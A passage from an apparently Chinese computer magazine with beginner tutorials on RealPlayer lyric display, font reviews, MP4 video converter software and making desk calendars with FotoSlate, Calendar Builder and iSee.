右击歌词窗口，选择“选项”，然后切换至“显示设置”选项，这时我们会看到一个“背景图片亮度”选框，这里提供了1到100的调整数值。图片亮度越高，数值也就越大，如果我们选择100的话，图片的亮度就达到了最高，即为原始图片的亮度。在这里可以根据自己的需要选择一个合适的图片亮度，然后，单击“确定”按钮即可，很简单。

##### 绝招三：字体与背景图片的完美搭配

背景图片可以修改，字体也一样可以。如果你将图片调亮以后，感觉歌词看不清楚了，就可以对字体进行调节，使之能够清晰地显示于背景图片之上。此外，对于一些比较好玩的字体，你一样可以应用于歌词显示。

具体的做法是：右击歌词窗口选择“字体大小”，这时候我们可以看到，字体的大小可以简单地进行“大”、“中”、“小”的大致调节。这里我们可以单击“自定义”选项，于是出现如图8的窗口。


##### 绝招四：卡拉OK，轻松上场

如果你想体验一把卡拉OK的感觉，希望自己能跟着伴奏和歌词提示来演唱。那么，有没有办法让RealPlayer的歌词显示变成卡拉OK的体验吗？当然可以了。因为RealPlayer可以帮你掌握歌曲的节奏，按照歌词的提示来唱歌。

那么，到底应该如何将酷我歌词改成卡拉OK模式呢？其实很简单，我们只需要右击歌词内容，选择“显示方式”→“卡拉OK模式”就可以了。现在再来看一下歌词的显示，一定会让你非常兴奋哦！好了，下面就跟着音乐的节奏，开始你全新的卡拉OK体验吧！

综述：相信介绍了这么多的应用技巧之后，你一定对全新的RealPlayer充满很多期待吧？如果你一直使用的是旧版本的该软件，那么就赶快换上最新的版本，有了它，听歌、看电影都会有全新的体验。RealPlayer集合了如此众多的优秀功能和技巧，使用这款多媒体播放软件，相信你的多媒体感受之旅一定会更加丰富和精彩！

### 字体鉴赏之方正静蕾字体

◆文/TMG zcy

推荐下载地址：http://www.kaila.com.cn/laoxu_font.html

简介：我们都知道最近一段时间以来，老徐徐静蕾可谓是春风得意，她在网络上的名望真的是越来越大了。其博客点击率已经是家喻户晓，创办的电子杂志《开啦》仅发行一周，下载量就突破了百万。而现在，我们要说的是静蕾的又一出色作品，那就是方正推出的方正静蕾字体。

方正在其字库的官方网站上，以明显位置推出徐静蕾字体。方正对这一字体是这样进行评价的，说它是影视明星徐静蕾的手写体；字体骨骼清秀、遒劲有力，清冽而又优雅、从容，令人赏心悦目；字如其人，心素如简，人淡如菊。特别适用于书写信函、报告、文章等。看来单是从方正的这一评价上，我们就可以看出，这样的一款字体一定会引起很大的关注，尤其是其“心素如简，人淡如菊”的诠释，更给众多用户带来很大的心灵慰藉。

> 秦时明月汉时关，
万里长征人未还。
但使龙城飞将在，
不教胡马度阴山。

此外，稍微关注徐静蕾的人就都知道，她的书法也算是颇有名气的。单就中央电视台的梅地亚中心的“梅地亚中心”几个字就为她赚足了人气。因此，如果可以将自己的字体打造成静蕾字体的话就真的很有风格了。而且，作为众多电脑字体中出现的第一款名人字体，这款字体赢得了很多用户的极大喜爱。

### 字体鉴赏之迷你简竹子体

◆文/TMG zcy

推荐下载地址：http://sc.chinaz.com/html/Fonts/DownPage/1011353394.htm

简介：一听这种字体的名字估计就会有很多喜欢竹子的朋友会比较兴奋，的确，自古以来我们有着太多关于竹子的诠释。中国是竹的故乡，我国有约500种竹类，资源非常丰富。而且我们养竹和用竹的历史也十分悠久，宋代大文豪苏东坡曾这样说过：“食者竹笋、庇者竹瓦、载者竹筏、炊者竹薪、衣者竹皮、书者竹纸、履者竹鞋，真可谓不可一日无此君也。”。不仅这样，竹又以潇洒自然以及素雅、宁静之美，令人心驰神往，它的虚而有节、不慕荣华、不争艳丽、不媚不谄的品格，赢得无数文人雅士的欣赏。

> 食者竹笋、庇者竹瓦、载者竹筏、炊者竹薪、衣者竹皮、书者竹纸、履者竹鞋，真可谓不可一日无此君也。

迷你简竹子体就可以给人带来一种不俗的享受，不仅是那些喜欢竹子的人会特别青睐，即便是普通人使用这款字体也会有醉心竹林，流连忘返的感觉。作为通身流溢着恬淡虚无幽幽灵光的伊甸圣土的竹子，给人以无限的感染和力量，让我们更好地去品味人生和顿悟人生。尽管我们不像很多书画家们，可以爱竹画竹，但毫不夸张地说，我们能够“写”出一片竹子来。一篇枯燥平淡的文章经过鼠标的轻松点击，就能很快变成一片清秀的竹子的海洋，使我们的文章增色不少，更陶冶了情操。

### MP4转换大行家

◆文/TMG zcy

引言：目前，随着MP4的普及，移动视频早已走入了人们中间。网络下载各种视频文件后再将它们存储到MP4中，就可以随身携带了。公交车上、公园里到处可以见到手里拿着MP4播放器的人们。这种原本备受年轻人青睐的东西，现如今也不再是年轻人的专利，中年人也在慢慢地开始使用MP4了。这就源于它的强大的视频功能，为人们带来新鲜的体验。但是，我们都注意到了这一点，由于MP4播放器支持的文件格式有限（比较流行的就只有AVI、ASF、WMV、MPEG-1、MPEG-2、MPEG-4等格式），我们不得不放弃与之不吻合的视频文件。其实，目前有很多专门用于视频文件转换的工具软件，只要你学会了这些软件的使用，就可以自己动手轻松地转换MP4格式文件了。有了它们，任何格式的视频文件我们都可以随身携带观看哦！

当然，众多的视频文件转换工具软件各具特色，以下我们就简单介绍几种操作起来比较容易的软件，让你轻松学会，轻松转换。

#### 一、MP4/RM全能视频转换专家2007豪华版2.0

软件大小：21689KB

软件类别：国产软件/视频转换

软件语言：简体中文

运行环境：Win9x/Me/NT/2000/XP/2003

推荐下载地址：http://www.onlinedown.net/soft/57164.htm

软件简介：“MP4/RM全能视频转换专家2007豪华版2.0”是一款多格式转换软件（图1），而且可以将RM/RMVB/VOB/AVI/MPEG/DAT/VCD/SVCD/DVD/ASF/WMV/MPG等诸多常见格式的视频文件转换成普通MP4机、MP4手机、PSP机、iPod或DVD影碟机等硬件支持的AVI、MP4、PMP格式。软件界面简单，便于操作，即便是第一次使用的用户，也可以轻松自如地应对。操作起来也十分顺畅。而且，利用这款软件转化视频文件速度快、质量高，转化后的视频文件图像清晰、色彩表现力强。并支持批量操作，也就是说，多个文件同时进行格式转换也没有问题，保证轻松自在。



使用这款软件进行转换后的PSP（PMP）文件适合PSP机播放；转换后的IPOD（MP4）文件适合Apple iPod播放；转换后的手机（MP4）文件适合各种支持MP4的手机播放；转换后的AVI文件适合各种支持DivX/XivD/MJpeg1/MJpeg2/H264编码的MP4机、手机、PDA播放。相信有了这款软件，我们就可以将视频文件随意地转换成各种格式，想要通过什么方式播放都能满足。

这款软件的使用超级简便，下面我们就来简单地看一下吧：

- 第一步：轻松安装
根据我们以上建议的下载地址，用户可以进行软件的下载。下载成功后，右击压缩包进行软件的解压缩。然后双击安装文件进行软件的安装。
单击“下一步”继续后，依据软件的提示阅读授权协议，并单击“我接受”按钮，然后，在出现的窗口中选择软件安装文件夹，单击“安装”按钮即可完成安装。

- 第二步：注册
值得注意的是，为了顺利转换时间较长的视频文件，我们首先要进行软件的注册，否则我们只能转换十分钟之内的视频文件。
单击软件主界面的“注册”图标，出现“注册”窗口。单击在线注册的链接后，即可到相应的网站提交订单→汇款→获取注册码，注册码会以邮件的形式发送至你的邮箱，然后将注册码键入，单击“注册”即可完成。一次购买获得注册码后，可以永久使用。

- 第三步：轻松转换
软件注册完成后，我们就可以进行目标视频文件的格式转换了。这里要注意的是你所要选用的播放途径是什么，该软件根据不同的需求，为不同用户量身定做。
我们以MP4手机为例，来进行视频文件的转换以适应MP4手机的播放需求。其实很简单，我们不必担心MP4手机支持什么格式，应该将视频文件转换成何种格式。这也是所谓“豪华版”的豪华之处，不必过问内在的那些复杂的东西，只要轻松选择播放设备的种类就OK了！
从软件的主界面我们可以看到，工具栏有一排图标，分别为“打开”、“输出”、“删除”、“注册”和“帮助”五项内容。用户单击“打开”图标就可以进行视频文件的选择，然后单击“打开”按钮即可进入到文件列表中。
我们选用的播放设备是MP4手机，因此单击“手机MP4”选项（如图2）。



从图中我们可以看出，用户还可以进行视频大小、视频码率、视频帧率、音频声道等内容的设置，视用户所选用的播放设备的实际情况来定。然后单击右下角的“开始转换”图标就可以进行转换了。

二、MP4视频转换通4.9

- 软件大小：27396KB
- 软件类别：国产软件/视频转换
- 软件语言：简体中文
- 运行环境：Win9x/Me/NT/2000/XP/2003
- 软件评级：
- 推荐下载地址：http://www.onlinedown.net/soft/48331.htm

软件简介：MP4视频转换通可以说是一款功能十分强大的MP4视频转换器，它可以帮助广大用户将几乎所有流行的视频格式转换为MP4机、Apple iPod、智能手机、SONY PSP所支持的视频格式。RM、RMVB、VOB、DAT、VCD、DVD、SVCD、ASF、MOV、QT、MPEG、WMV、MP4、3GP、DivX、XviD、AVI等视频文件的转换都没有问题。而且，该软件界面美观，选用的工具栏图标非常可爱，一个帮助图标里的星星造型就给它增添了不少的趣味性（如图3所示）。而且该软件还能在转换文件的同时看到转换的进度。速度快、质量高，还能同时批量转换多个文件，输出文件目录也可以进行人为的选择，真的是一款非常实用的软件。该软件是梦幻科技的又一优秀专业力作，它的界面风格高贵典雅。支持几乎所有视频格式的文件转换：RM/RMVB/VOB/AVI/MPEG/DAT/VCD/SVCD/DVD/ASF/WMV/MOV/QT/MP4/3GP/3GPP2/DV/YUV等视频文件转换为普通的MP4机、SONY PSP、PS3、iPod（Video/Touch/Classic/Nano）、iPhone、Apple TV、3GP/3GPP2/MP4手机或DVD影碟机等硬件支持的AVI/MPEG4/3GP/3GPP2/MP4视频格式。更值得一提的是，它还可以支持Flash的SWF/FLV文件的导出。技术如此精湛，一定会为用户带来全新的体验。

第四步：删除文件

如果用户在选择完成预备转换的视频文件后，发现选择有误或者其它原因想放弃该文件的转换的话，操作起来也很容易。我们只需选中列表中的该文件，然后单击“删除”图标即可。

第一步：软件安装

我们通过网站下载的方式获得“MP4视频转换通”，双击安装文件图标，在安装界面中单击“下一步”按钮，根据提示进行安装。这款软件的一个独特之处在于，它针对不同的电脑CPU类型提供了不同的安装类型。用户要根据电脑的实际情况选择相应的类型。

第二步：文件转换

“MP4视频转换通”实现文件的转换速度快、操作容易，它提供了五种转换类型，分别为：适合各种支持XviD/DivX4/DivX5/MJpeg编码的MP4机、手机、PDA等；适合于各种支持3GP格式的手机、适合于各种支持MP4格式的手机、适合于Apple iPod上播放；以及适合于SONY PSP上播放。如此强大的视频文件转换功能，相信目前广大用户使用的各种移动便携设备的视频文件格式都囊括在内。有了这款软件，想把原有视频文件转换成什么格式就转换成什么格式。

- 适合各种支持XviD/DivX4/DivX5/MJpeg编码的MP4机、手机、PDA等；
- 适合于各种支持3GP格式的手机；
- 适合于各种支持MP4格式的手机；
- 适合于Apple iPod上播放；
- 适合于SONY PSP上播放。



第三步：注册使用

我们在每次双击打开图标使用该软件之初，都会出现注册界面，我们单击“继续试用”按钮后，系统就会自动进入到软件主界面中。然而，试用版的该软件只能够转换原文件播放时间的20%，因此用户需要进行进一步的注册才能更方便地使用该软件。可以通过刚启动软件时单击“网上银行在线注册”进行注册，也可以在软件的主界面中单击菜单栏“注册”图标，在这里，单击“如何注册成为正式版用户”按钮，于是就会弹出一个填写订单的网页。广大用户朋友现在就可以通过填写订单进行注册了，注册成功后的软件将会使用起来更轻松。

三、MP4/RM转换专家白金版9.65 Build 4650

- 软件大小：22543 KB
- 软件类别：国产软件/视频转换
- 软件语言：简体中文
- 运行环境：Win9x/Me/NT/2000/XP/2003
- 推荐下载地址：http://www.onlinedown.net/soft/41952.htm

软件简介：“MP4/RM转换专家”采用全新的国际一流编解码技术，全方位支持各种CPU最新指令的优化运算，而且具备超过2倍以上转换速度的能力。此外，它的转换速度会随着用户的计算机性能提升也得到进一步的加速，并且没有上限。因此可以说，这款软件的转换速度和质量都是绝对一流的水平。

如此一款技术上乘的转换软件在操作上也十分容易，它的设计理念与我们的思维习惯相吻合。采用向导式的引导设置，提供了详尽的参数，非常容易上手。它还附有多种流行的音频压缩器，可以让制作后的文件质量一流、应用广泛。DVD全能转换功能更是将软件的功能进行更大范围的拓展，使用这款软件就可以将DVD光盘的视频和各种字幕、音轨、角度等信息完整地转换为其它的格式，满足广大用户全方位的转换需求！

下面我们就来一起看一下软件的操作流程：

“（mp4）”选项

在转换之前，我们还要注意一下，用户可以进行视频尺寸、品质以及编码方式的选择，并且对文件的输出目录进行指定。可以单击“选择目录”按钮，进行视频文件存储路径的选择，便于管理。一切准备就绪后，单击“转换”图标，文件就开始转换了。在软件界面的下方，我们还能够看到转换的进度，速度很快，转眼间，视频转换完成，并存储到相应的文件目录下。然后，单击“确定”返回。我们通过单击选中列表中的原视频文件，单击“删除”按钮，或者单击“清空”图标，即可完成软件界面的清理。此外，如果我们在添加文件的时候选择了多个视频文件，列表中就会相应出现多个文件。这时候，如果你想将文件顺序进行调换的话，可以选中某个文件，然后单击软件主界面右侧的“上移”或者“下移”按钮来完成文件的调换。

第一步：注册安装

通过推荐下载路径进行文件的成功下载后，我们双击执行程序图标进行安装，于是就会出现安装向导界面。

用户根据安装向导的提示继续，同意接受协议并且选择自己所要安装的文件目录，单击“下一步”按钮进行安装。在弹出的新窗口中单击“完成”，软件安装完毕。

第二步：快捷注册

双击软件图标启用时，系统会出现一个快捷注册的对话框，当然，我们也可以选择“继续试用”运行软件，但是试用阶段在进行视频文件的转换时，软件只提供对文件的20%转换。

如果你想要以后能够顺畅、方便地使用该软件的话，可以通过单击“我要注册”的方式进行软件的注册。

第三步：软件使用

无论你选择注册还是试用，都可以打开软件的主界面，如图4所示，界面以深红色为主，还配有一些典雅的花纹背景，十分美观，绝对可以提升你的品味。



我们单击软件主界面中的“添加待转换视频”按钮，然后在出现的下拉菜单中选择“添加一个视频文件”，如果你要进行多个文件的格式转换，就选择“添加多个视频文件”。

我们以添加单个文件为例，单击该选项，即可出现选择文件对话框，在这里我们就可以选择要转换的原视频文件了。

单击“打开”按钮后，系统就会自动弹出一个对话框，我们需要选择要导出的文件格式，也就是需要转换成的文件格式。该软件为用户提供了十分强大的导出格式功能，我们只需要通过单击右侧的箭头按钮就可以看到。

软件共提供了19种导出格式，完全可以满足一般用户的视频转换需求。它的Flash视频文件转换功能更是将视频文件转换功能发挥到了极致。有了它，我们自己也可以制作Flash文件了。

选择某种用户需要的导出格式之后，单击“下一步”就会出现一个新的对话框，用户可以进行更为详细的视频设置。

视频的比特率、输出视频的分辨率、音频的采样率等相关设置，都可以根据需要进行任意的设置。如果我们单击“添加/设置字幕”还可以为转换后的文件设置字幕，这款软件真的是为用户考虑得十分周到。

单击“添加/设置字幕”按钮后，用户就可以在弹出的对话框中进行字幕的添加或禁止设置了。选择“禁止字幕”选项，字幕就不会出现了。如果我们想要为视频指定字幕的话，就可以选中“手动为视频文件指定字幕文件路径”选项，然后单击“浏览”按钮，就可以进行添加。

一定要注意的是，用户选用的加载字幕一定要符合SRT、SUB、SSA等格式，格式不符合也无法加载成功。选择好加载的字幕文件后，单击“打开”按钮，即可回到原窗口；单击“确定”设置生效。

在主界面中如果我们单击“存放导出的视频文件夹”下方的“浏览”按钮，就可以进行导出路径的修改了。将转换后的视频文件存储在一个指定的文件夹中，管理很方便。

接下来，单击下方的“开始转换”按钮，文件就开始按照用户所设置的方式进行转换了。

此外，如果我们转换文件的参数设置有问题的话，可以选中该文件，单击“修改选中项”按钮，于是就可以回到“设置待转换的视频参数”对话框了。删除文件也很简单，选中文件后单击“删除选中项”即可。

视频文件转换成功后，系统会提示你进行转换后文件的浏览。单击“确定”返回，文件转换完毕。

第四步：DVD全能转换

软件的这一特殊功能可以将DVD光盘的视频、音频、字幕、角度等信息转换成MPEG1/MPEG2/MPEG4/AVI/VCD/SVCD，以及PSP/PS3/iPod(Video/Touch/Classic)/iPhone/Apple TV/手机等各种MP4/手机3GP/手机3GPP2等众多流行格式。

单击“DVD全能转换”按钮，以下操作方法与上面的视频转换十分相似。单击“选择DVD光盘”然后进行接下来的操作，真是简单又实用。

此外，它还自带了音频增益、容量切割、超强纠错等十种高级功能，有了它，你的DVD视频可以转换为各种不同的格式，用途可就比以前广泛得多了。

这款软件功能强大、使用方便，又不失专业的水准，真是一款难得的软件。有了它的帮助，转换MP4格式文件绝对是小菜一碟！

综述：

刚才我们介绍了三款用于视频转换的软件，它们的共性在于能够快速、高质量地将其它格式的视频文件转换成你想要的格式。而且操作起来都十分简单，无论你是网络高手还是初来乍到的新手都可以轻松将视频文件进行随意地转换。现在，你还在为一些视频文件因为格式不对无法播放而苦恼吗？相信你一定找到了解决的好办法！

重扬南泥湾精神，个性台历DIY

◆文 / TMG zcy

引言：台历是一件再普通不过的东西了，随便串串门儿，我们就能在朋友的书桌、床头上看到它。不过尽管市面上出售的台历琳琅满目，要真找到一款自己喜欢的可就不那么容易了。不是这里的线条看着不舒服，就是那里的图案太俗气。试想一下：如果我们自己也可以制作台历就好了，想要什么样的线条就要什么样的线条，想要什么样的图案和颜色搭配也都能随心所欲，真是太棒了！其实，这实现起来并不难。今天就给大家介绍几种自己DIY台历的方法，这样制作出的台历不但个性惹眼，还能让你在制作过程中体验前所未有的快乐！

一、让你有明星范儿的台历——ACD FotoSlate 4.0

- 软件大小：12.59 MB
- 软件类别：图像处理
- 软件语言：简体中文
- 运行环境：Windows 2003/XP/2000/NT/ME/9x
- 推荐指数：★★★★★
- 推荐感言：写真与台历的完美结合
- 下载链接：http://7703.com/soft/5/90/2007/02/7703_32725.html

FotoSlate实际上是一个制作数码相册的常用软件，它可以为你建立、保存、打印具有专业效果的电子相册，而且还提供超过450种相片模板方便用户打印。它为家庭用户、专业摄影人士以及摄影爱好者提供了一个全新的打印工作室，常见的4×6或5×7相片尺寸打印起来都没有问题。图1就是通过FotoSlate设计而成的一个台历，用它我们可以自行定制相册的样式，制作相册、日历、贺卡等都没有问题。上面的台历是不是很精美呢？好，下面我们就来看一下具体的制作过程吧，谁说只有明星才能置身于台历？我们普通人一样可以！



FotoSlate 4.0较以前的版本来讲，增加了更多的人性化功能。这版FotoSlate可以将图像进行旋转和应用形状效果操作，并把假日添加到日历当中。它的模板和背景也得到了改善，比以前的效果更为突出。此外，还新提供了一百种框架。因此，我们做出的写真会更加吸引人。

那么，一般来讲，要制作这么精美的写真台历，一定要花费不少的时间，操作的时候恐怕也不会太简单吧？其实并不是这样的，这款软件的使用只要遵循下面我们介绍的6大步骤来进行就没问题。

STEP 1：激动人心的时刻到了！我们下载安装FotoSlate 4.0软件后，就要开始启动它进行台历的设计了。首先，单击“开始工程向导”，在出现的对话框内将“向导类型”选择为“日历”，然后单击“下一步”。

我们在弹出对话框中的“页面选项”下拉列表框中，选择页面的大小和方向，如：我们选择4×6、横向。下方的日历样式中，我们选择“经典和图像及文字”，然后再单击“下一步”。

接下来，我们开始月份、年份以及月数等内容的设置，设置完成后单击“下一步”。我们下面就对文字属性进行相应的设置。针对不同的文字属性，我们在设置的时候还是本着喜欢的原则，将月份或者星期、日期的字体设计成自己心仪的颜色等，单击“完成”按钮即可设置成功并返回主界面。

STEP2：向导设置成功了，一个台历的规划模型就已经基本成型了。既然这款软件的特点在于图像的表现上，那么，下一步我们要做的，也是设计制作台历最重要的环节，就是图像的添加。

我们先单击“添加图像”，在新出现的窗口中，在左侧选择我们备用的图片，也就是想要置入台历的图片。具体做法是选择图片所在的文件夹，然后选择备选图片。由于我们会选择多个图片，因此在选择的时候应按住“Ctrl”键。单击“添加”按钮，图片就被添加到下方的列表中了。当然，如果我们不小心选错了图片或想要更换图片的话，都可以选中列表中的图片并右击进行删除，十分简便。单击“确定”后列表中的图片就被纳入设计台历的后台去了。

STEP 3：下面就是一些比较精细的动作了，这里也是最能显示个性的地方。将左侧的图像文件通过拖动鼠标的方式移动到右侧的图像框中，现在的图像框中显示的就是一个大致的台历预览了，而且图文并茂。如果是你的照片的话，转眼之间，你就很有明星的范儿了。这时，双击图像框中的文字框，就会出现一个对话框。在这里我们可以输入一些文字或符号，可以是图片的信息或你的个性签名等。不过为了使效果更加简约明快，建议大家不要在此处添加过多的内容。双击日历上的日期后，我们也会看到一个对话框，对于月份、周、天的背景颜色和字体都可以进行设置。

这里的“特定的日子”选项卡更凸现了台历DIY的特色，单击“特定的日子”，就可以看到在“额外事件”项目中我们可以选择任何的日期进行事件备注，打印出来的台历也就会在相应的日期下显示你的文字说明内容了。这样一来，放假日历、朋友聚会、郊游、父母的生日都不会忘记了，非常实用。

STEP 4：这款软件有一个很大的特点就是它默认每张日历只能添加一幅照片，图1也是一张照片占据了整张的地盘。如果我们要想在一张台历上多放几张照片应该怎么处理呢？

首先，单击“页面”选项，选择“调整页面”，在弹出的小窗口中将其切换至“页面设计师”，现在你就可以进行随意的设计了，体验设计大师级的感受！

我们通过单击右侧工具栏中的按钮，就可以在页面上添加图像外观，无论是正方形、矩形还是正圆形、椭圆形、心形，或者调皮的星星形状都可以添加，其尺寸大小和位置都可以随意地调整。如果你想添加文字说明的话，就单击“T”按钮，这样文本框就出现了，想怎么弄就怎么弄，设计完成后通过单击菜单中的“文件”选项单击“接受”命令就OK了！

STEP 5: 图像的框架有了，日期的设计也基本完成了，剩下的内容就是将图像嵌入各个特色造型的图像框中了。我们只需要把图片直接进行拖动，操作方法和我们每张台历只选用一张图片时的做法是类似的。如果你有五个图像框的话，就分别进行五次操作，将选好的五张图片一一拖动到相应的框中。
当然这一操作的前提一定要使待拖动的图片已经被添加到图像列表中。要删除拖动进去的图像可以直接右击删除。同时，如果我们选择“图像编辑器”就可以打开ACDSee的图像编辑器进行图像的后期处理。设置图像边框也可以实现，我们只需要选择“图像属性”就行了。在弹出的对话框中进行你的个性设置，增加阴影、添加背景色等都不在话下。单击“确定”，设置就会自动生效。

STEP 6: 设计好了一张台历后显然还没有完事儿，只有一个月带图像怎么能行？因此我们要对其它的月份也进行如上所述的设置，设计完成后，单击“文件”选项中的“另存为图像”即可将日历进行保存了。
经过精心的设计，我们的个性台历终于DIY完成了，单击“文件”选项中的“打印”命令，个性台历从此诞生，快来看看，是不是真的漂亮呢？结果自然不用多说。

二、简易台历的实施——Calendar Builder 3.46

- 软件大小：1729 KB
- 软件类别：国外软件/共享版/时钟日历
- 软件语言：英文
- 运行环境：Windows 9x/NT/2000/XP/2003
- 推荐指数：★★★★
- 推荐感言：大方简洁，跟上时代的脚步，如果你不多加修饰的话，制作这样的台历真的是很轻松。
- 下载链接：http://www.skycn.com/soft/4907.html#download

这是一款以简约著称的台历软件，十分符合现代人追求高效率的风格。它制作方法简单，能为你节省不少的时间和精力。但是如果你想对它多做一番修饰的话，也可以设计成这个样子哦(图2)！



Calendar Builder的颜色和文字表现十分优异，可以使用任何颜色和任何字体。它还能将设计好的日历保存为BMP或JPEG文件格式。它的各式图形光标或者是我们自己剪切的艺术头像和图片等，都可以拖入到自己的日程表中。
除了在日程表中加入图像外，我们也可以进行文字的输入，对这些文字进行粗体、斜体和下划线的编辑也没有问题。
我们还可以通过单击一个按钮向日程表中填写当前月的所有纪念日、生日、聚会、周年、假期、旅行等。正如图3所示，那个可爱的生日蛋糕就被拖进了日历。这样，John的生日就不会被忘记了。使用起来很方便，而且也很“咔哇咦哦！



这款软件还为用户提供了13种不同的日历模板，13种风格迥异的日程表让你随心选择，包括当日计划、1周、2周、1个月、6个月、12个月、24个月、48个月及60个月的日程安排。用它来安排你的日程，不论是过去、现在还是将来，都为我们带来很大的方便。这种日程表还能够被定制成横向或纵向，用中文、英文、法文、西班牙文、德文、意大利文中的任意一种语言进行创建。它的字体、颜色和页眉格式也都可以任意指定，以字母为单位，或者指定一种合适的纸张大小都完全可以做到。
看来这种设计出来的台历尽管比较简易，但它里面的门道也还真是不少啊。可是，这款语种如此众多的“国际化”软件全部由英文显示，会不会使用起来也很复杂呢？
其实不是的，它相对其它软件来讲，应该说是更容易。既然它作为一款以简易为最大特色并著称的软件，我们就来介绍一些它的简单操作吧！相信你只要跟着我们的步骤体验一遍，保准让你几分钟就能做出一份台历来！

STEP 1: 在我们推荐的网站上下载Calendar Builder后进行安装，一切安装就绪后，我们双击桌面上的Calendar Builder图标，启动软件，单击“Continue”进入软件主界面。主界面没有太多的显示内容，大部分区域都是灰色。我们选择菜单中的“File”选项，单击“New”，于是就出现一个名为“Calendar Properties”的窗口。然后我们在Select Layout下选择一种日历的外观，选择的时候可以通过右侧的预览来做参考，仅显示本月日期还是同时显示前后各一个月或各六个月的日期等，或选用其它的方案都可以。这里我们以选中第三个选项为例，然后选择日历的各个月份的横向“Portrait”或纵向“LandScape”显示，以及所用纸型。这里我们选中纵向、A4纸张。

我们将窗口切换到“Date”选项卡，在这里我们就可以进行该日历起始月份的设置了；切换到“Fonts, Colors”和“Mini Fonts, Colors”选项卡，便可以进行日历各个部分字体和颜色的设置，大家可以随意选择。
通过字体和颜色的设置，怎么样？看上去颜色的搭配效果还不错吧？

STEP 2: 完成了以上的设置，还只不过是个空架子。不过，骨架搭好了，剩下的内容也就省事多了。接下来，我们将上面的窗口进行如下的操作：
切换至“Headers”选项卡，将左边的两个选项都选中“Whole Word”，以显示完整的日期；
切换至“Language”选项卡，将Day Name下的“星期日、星期一、星期二……”全部修改为“日、一、二……”；
切换至“Margins”选项卡，选中“Use Millimeters”，此处还可以进行页边距的设定；
切换至“Borders”选项卡，这里方便大家选择不同类型的边框，因为有预览功能的存在，因此每一步操作都很容易。

STEP 3：进行完了如上所述的各项设置，单击“OK”按钮，一个简易的台历就诞生了。

怎么样？一款简易台历的制作就是这么容易和轻松，不用浪费你的更多时间就能带给生活更多的便捷，真是很划算哦！当然，如果你对这款软件的更多功能感兴趣的话，也可以自己稍微探索一下，尽管是英文界面，但是各种图标都设计得十分简单显眼，操作方法也不难，如果感兴趣的话可以自己亲身体验一番。相信这款软件一定不会令你失望的。

#### 三、还是农历最亲切——iSee个人图片专家 3.223

- 软件大小：9575 KB
- 软件类别：国产软件/图像浏览
- 软件语言：简体中文
- 运行环境：Windows NT/2000/XP/2003
- 推荐指数：★★★★★
- 推荐感言：图片专家做台历，手到擒来！
- 下载链接：http://www.onlinedown.net/soft/39528.htm

图3就是用iSee个人图像专家制成的2007年10月份的台历，看上去就很豪华的样子，看来制作者一定是花费了不少的心血。其实，应该很多人都听说过iSee这个软件，它是一款功能十分全面的数字图像浏览处理工具，不但具有能够与ACDSee相媲美的强大功能，还能让我们的图片动起来，给我们留下更多更美好的记忆！

iSee具备强大的傻瓜式图像处理方法和在线图像娱乐以及图像娱乐应用功能，还有强大的数码照片辅助支持、增强工具、图像算法、换肤和内置在线升级等强大的技术支持，难怪它能够受到各界人士的好评。它的图像处理功能之所以被称为“傻瓜式”，就源于它的操作设计得十分人性化，容易上手。用这款软件，你可以将图片进行任意的旋转，调整尺寸、亮度、饱和度、对比度，以及为图片设计制作特效、添加文字等操作，我们的数码照片也可以借助iSee的力量进行图片扫描、批量水印、添加相框和冲晒导出等操作。值得一提的是，有了iSee的冲晒导出功能，我们不必再跑到冲印店做处理，而是直接将定制好的照片输出冲晒就可以了。即便是任意的剪裁或留白都没问题，我们也不用再拘泥于固定的居中、偏左或偏右模式。有了它，我们可以在手指尖上淋漓尽致地处理我们的数码照片，此外，还可以将照片轻松与好友分享。

用这样一款强大功能的图像处理软件来进行台历的制作，肯定会异常精彩，因为它可以在制作的各个环节进行优化设计。这样一款软件，尽管制作台历只是它众多功能之中的一项内容，但是它提供农历资源的本领并不比那些专门用于台历制作的软件逊色。长久以来我们似乎对农历一直情有独钟。春节、婚礼、生日等诸多日子都与农历有着不解之缘，如果精心制作的台历没有农历的话，总会带给我们一些遗憾。那么，用iSee如何制作带农历的台历呢？

Step 1：首先下载安装完毕iSee，运行后出现的窗口很有“资源管理器”的风格，左侧的文件夹即显示电脑中所有的文件内容，在这里我们可以进行图片文件的选取。选中的图片可以在左下方看到预览的内容。
双击被选中的图片，该图片就会以几乎全屏的大小显示于编辑器内，如果你选取的照片需要调整的话，我们可以单击菜单中的“图像调整”选项，选择“亮度/对比度/饱和度”来进行相应的调整。此外，我们还可以选择“图像调整”选项中的“添加文字”或“添加水印”来进行相应的修饰。添加文字的时候我们可以手动输入文字的内容，并对文字进行字体、字型、颜色、效果的设置，点击“应用”按钮即可将文字置入图片中。大家还可以根据自己的审美标准来进行文字位置的拖动和大小、颜色、效果的修改。即便是操作失误我们也可以通过点击菜单栏上的撤销键进行恢复。

因为做出来的台历需要打印完成，因此，如果你的打印机刚好是黑白的话，你就需要进行设置了。具体的做法是：单击“图像特效”，选择“照片处理”命令中的“黑白照片”，通过预览参考选择哪一种画面效果，选择一个类型之后，单击“确定”按钮即可完成。经过这一步操作，现在你的图片就变成黑白的了，不过也很有韵味哦！

其实，这样一款图像处理软件，我们还可以进行更多关于照片的处理，如模糊、锐化、扭曲、颜色交换等。

Step 2：照片处理完成后，我们就要开始着手做台历了。首先，我们单击菜单中的“炫彩地带”→“相框合成”→“我的日历”，于是就会出现一个用于设置日历的对话框。我们在“选择类型”的下拉列表框以及下方的“名称”处和右侧的“蒙版”列表框中选择自己所喜欢的类型。如：我们选中“普通日历”，选中“月历_01”，和“枫叶”。在这个窗口中，还有个很惹眼的虚线框，通过拖动鼠标我们可以实现选用图片的平移和大小的调整。而透明度的大小也是随意设置的，调整透明度的时候，我们要首先勾选“透明度”、选项，然后通过鼠标单击“↑”“↓”来调节具体的数值以改变透明度。此外，“开始月份”的选择要依个人需要而定，修改年份和月份的时候也都是通过鼠标单击“↑”“↓”来调节。我们以制作2007年日历为例，将“开始月份”设定为“2007年1月”。然后，我们单击“应用返回”按钮，就实现了日历的设置。实际上，这个对话框中的图案同时也是我们日历制作过程中的预览。此外，我们还可以通过切换“相框合成”对话框中的各项内容来进行日历的各种效果设计，如再为其加上边框等等。大家不妨亲自体验一下，不同的风格定会有不同的表现，都是很不错的哦！

Step 3：在刚才的对话框中，我们单击“高级”按钮，在出现的对话框中我们可以设计年、月、星期等字体显示以及背景和边框的效果方案。为了使农历得以显示，我们要选中“使用中国农历”复选框，至于是否加入生肖就要看你的心情了。我们现在选中“使用背景框”，边框宽默认为4px，单击“边框色”后的矩形方框来选择颜色。然后单击“确定”，设置生效。
